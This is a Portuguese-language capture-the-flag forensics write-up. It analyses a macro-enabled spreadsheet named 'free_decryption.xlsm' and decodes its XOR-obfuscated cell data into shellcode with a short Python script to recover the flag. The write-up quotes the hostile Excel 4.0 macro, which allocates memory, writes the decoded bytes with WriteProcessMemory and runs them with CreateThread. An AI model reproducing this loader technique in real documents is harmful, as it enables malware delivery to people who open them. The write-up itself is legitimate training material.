 #Difficult : Easy #Category : Forensics
#### Info
Recebemos um arquivo `xlsm`, que podemos primeiro ver suas propriedades e depois abrir com algum editor como `libreoffice` ou `wpsoffice`.

```sh
exiftool ./free_decryption.xlsm
```
![[Pasted image 20250513104558.png]]

Vemos que ele tem uma macro, vamos então abrir o documento para ver seu conteúdo. Ao abrir no `wpsoffice` temos o seguinte resultado.
![[Pasted image 20250513110413.png]]

#### Code analysis
Embora eu não saiba exatamente o que cada linha faz, podemos tentar descobrir a intenção do script.
```sh
=SELECT(E1:G258)
=CALL("Kernel32","VirtualAlloc","JJJJJ",0,386,4096,64)
=SET.VALUE(C1,0)
=FOR("counter",0,772,2)
=SET.VALUE(B1,CHAR(BITXOR(ACTIVE.CELL(),24)))
=CALL("Kernel32","WriteProcessMemory","JJJCJJ",-1,A2+C1,Β1,LEN(Β1),0)
=SET.VALUE(C1,C1+1)
=SELECT(,"RC[2]")
=NEXT()
=CALL("Kernel32","CreateThread","JJJJJJJ",0, 0, R2C6, 0, 0, 0)
=WORKBOOK.ACTIVATE("Sheet1")
HALT()
```

Primeiro ele seleciona as células que contém os números, depois pede para a Kernel alocar um espaço de memória. Após isso ele vai fazendo uma iteração  de 2 em 2 nos valores das células e fazendo um `bitXOR` entre a célula selecionada e `24` e então adiciona esse valor a memória. Podemos fazer o mesmo processo para ver qual binário se origina.

#### flag
Primeiro precisamos tratar o os números, colocando todos na mesma linha separadas por vírgula, utilizei o `neovim` para isso.
```nvim
%s/\n/,/g
%s/\s\+/,/g
```
![[Pasted image 20250513114407.png]]
Sobrou uma vírgula na última linha, podemos então nós mesmo retita-la. E salvei em um arquivo chamado `cells`

Agora criamos o `exploit` que irá recriar o binário.
```python
cells = open('./cells','r').read()
pre_numbers = cells.replace("\n","").split(",")
numbers = pre_numbers[::2]

key = 24
shellcode = b''

xor_result = [int(num) ^ key for num in numbers]

shellcode = bytes(xor_result)

open("shellcode.bin", "wb").write(shellcode)
```

Podemos então usar o comando `strings` para pegar a flag.
```sh
python exploit.py
strings shellcode.bin
```
![[Pasted image 20250513135632.png]]
***
![[Pasted image 20250513135744.png]]
